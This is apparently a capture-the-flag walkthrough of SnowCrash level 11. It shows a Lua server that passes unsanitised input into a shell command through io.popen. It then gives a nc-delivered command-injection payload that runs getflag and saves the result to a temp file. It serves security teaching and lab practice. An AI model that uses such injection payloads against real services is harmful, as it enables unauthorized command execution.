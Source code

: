 ```yaml
---
title: 42 SnowCrash Level11 - Walkthrough 🤖
tags:
  - ctf
  - snowcrash
  - command-injection
  - lua
  - script
  - exploit
categories:
  - ctfs
  - 42project
date: 2024-05-19 13:26:27
---
```


![snowcrash](/images/snowcrash.png)

## Introduction

In Level 11, we are provided with a Lua script that starts a server on port 5151. The objective is to exploit a security vulnerability in this script to gain unauthorized access.

## Step-by-Step Guide
### Step 1: Understanding the Lua Script

First, let's examine the Lua script located in the home directory of Level 11. The script starts a server on port 5151.

Here is the content of the Lua script:
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end

  client:close()
end
```

### Step 2: Identifying the Vulnerability
The vulnerability lies in the hash function, specifically in this line:
```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```
The input pass is directly concatenated into a shell command without any sanitization, leading to a command injection vulnerability.

### Step 3: Exploiting the Vulnerability

To exploit this vulnerability, we can inject a command to redirect the output of the getflag command to a temporary file.

When you connect to the server on port 5151, you are prompted to enter a password. Since the input is not sanitized, we can inject our payload.

Here is the exploit command:
```lua
echo -e "\$(getflag > /tmp/level12flag)" | nc localhost 5151 && cat /tmp/level12flag
```

### Step 4: Executing the Exploit
    1. Open a terminal and run the following command to connect to the server and inject the payload:
```sh
echo -e "\$(getflag > /tmp/level12flag)" | nc localhost 5151
```
    2. The `getflag` command's output will be redirected to `/tmp/level12flag`.

    3. Next, read the contents of the file to get the flag for Level 12:
```sh
cat /tmp/level12flag
```

### Summary

In this walkthrough, we identified and exploited a command injection vulnerability in a Lua script provided in Level 11 of the Snowcrash project. By injecting a malicious command, we were able to redirect the output of the getflag command to a file and retrieve the flag for the next level.

Feel free to reach out if you have any questions or need further clarification on any steps. Good luck with your continued learning and hacking journey!
